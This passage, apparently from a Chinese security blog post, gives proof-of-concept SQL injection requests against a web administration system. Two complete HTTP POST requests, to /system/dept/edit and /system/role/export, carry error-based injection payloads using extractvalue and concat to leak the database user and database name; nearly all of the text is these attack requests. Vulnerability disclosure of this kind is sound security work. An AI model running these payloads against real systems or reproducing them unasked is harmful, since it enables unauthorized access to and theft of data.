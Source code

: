 ```makefile
POST /system/dept/edit HTTP/1.1
Host: 127.0.0.1
Content-Length: 111
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close

DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```

![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826093927585-853109456.png)
第三个sql注入点POC：

```makefile
POST /system/role/export HTTP/1.1
Host: 127.0.0.1
Content-Length: 75
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close

params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```
